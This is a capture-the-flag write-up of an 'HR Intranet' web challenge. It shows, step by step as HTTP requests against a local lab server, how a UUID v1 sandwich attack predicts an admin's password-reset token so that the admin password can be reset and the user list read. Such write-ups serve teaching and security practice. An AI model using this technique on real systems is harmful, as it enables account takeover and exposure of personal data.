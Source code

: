 # Write-Up: HR Intranet

## Overview
The **HR Intranet** challenge allows participants to exploit a web application designed for a Human Resources department.
The challenge revolves around using a sandwich attack to gain unauthorized access to an admin account.

## Challenge Walkthrough

Creating an Account  
Start by creating a user account on the HR portal.

```http
PUT /login HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{
   "username": "anyone",
   "password": "anyone"
}
```

Password Reset Links  
After account creation, request a password reset link for the just created user.

```http
POST /api/account/reset HTTP/1.1
Host: localhost:3000
Cookie: session_id=<session_id>
Content-Type: application/json

{
"name": "anyone"
}
```

Next, generate a reset link for the admin account.

```http
POST /api/account/reset HTTP/1.1
Host: localhost:3000
Cookie: session_id=<session_id>
Content-Type: application/json

{
"name": "admin"
}
```

Then, generate a second reset link for the created account.

```http
POST /api/account/reset HTTP/1.1
Host: localhost:3000
Cookie: session_id=<session_id>
Content-Type: application/json

{
"name": "anyone"
}
```

UUID v1 Exploitation  
The reset links are based on UUID v1, which is time-based.
By having two UUID links (generated one before and one after the reset link for the admin), all UUIDs in between can be calculated.
This kind of attack is known as [sandwich attack](https://book.hacktricks.xyz/pentesting-web/uuid-insecurities#sandwich-attack).


Finding the Admin Token:
Iterate through the calculated UUIDs to identify the one corresponding to the admin reset link. Once found, the admin password can be reset and the user list accessed.

```http
PUT /api/account/reset HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{
"token": "<admin_uuid>",
"password": "admin",
"confirmPassword": "admin"
}
```

Accessing the User List  
After resetting the admin password, log in as the admin and request the user list.

```http
GET /api/users HTTP/1.1
Host: localhost:3000
Cookie: session_id=<new_session_id>
```

The full exploit is available in the [exploit.py](exploit.py) file.